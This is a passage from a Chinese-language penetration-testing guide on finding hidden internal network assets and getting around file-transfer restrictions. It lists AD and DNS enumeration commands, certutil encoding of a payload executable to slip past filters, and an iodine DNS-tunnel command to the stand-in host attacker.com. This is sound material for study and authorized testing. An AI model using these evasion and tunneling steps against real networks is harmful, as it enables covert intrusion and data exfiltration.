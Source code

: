   
命令，造成域服务不可用，引发严重生产事故。  
## 七、内网信息收集不全：挖掘隐藏的网络资产  
  
内网环境中常存在未被发现的关键资产（如隔离的数据库服务器、物联网设备），信息收集不全会导致测试范围遗漏。某内网渗透中，因未发现隐藏的PLC控制器，导致生产网安全隐患未被检出。  
  
**突破技巧**  
：  
- • **分析网络流量**  
：在已控制的核心交换机镜像端口抓取流量，通过Wireshark分析异常IP通信，发现隐藏设备。某案例中通过分析ARP包，发现了10.0.0.0/8网段的监控摄像头系统。  
  
- • **查询DNS缓存**  
：在域控制器上执行
```
ipconfig /displaydns
```

  
查看DNS缓存，或通过
```
dnscmd /enumrecords example.com @ /type A
```

  
枚举域内所有DNS记录，发现未在扫描范围内的主机。  
  
- • **利用Active Directory信息**  
：通过
```
Get-ADComputer -Filter * -Properties *
```

  
获取域内所有计算机信息，包括操作系统版本、最后登录时间等，识别潜在目标。  
  
信息收集工具组合：建议使用BloodHound绘制域内信任关系图，结合PingCastle进行域安全评估，两者结合可发现90%以上的域内关键资产和配置缺陷。  
## 八、文件传输限制：解决内网文件上传下载难题  
  
在内网主机上，常因端口封锁、应用层过滤等原因，无法使用常规的FTP、HTTP等方式传输文件。某企业内网禁止所有出站HTTP上传，且USB端口被物理禁用，给工具投递造成极大困难。  
  
**突破技巧**  
：  
- • **PowerShell Base64编码传输**  
：将文件转换为Base64编码，
```
certutil -encode payload.exe payload.b64
```

  
，在目标主机上通过
```
certutil -decode payload.b64 payload.exe
```

  
还原。  
  
- • **DNS隧道传输**  
：使用iodine等工具建立DNS隧道，
```
iodine -f -P password attacker.com
```
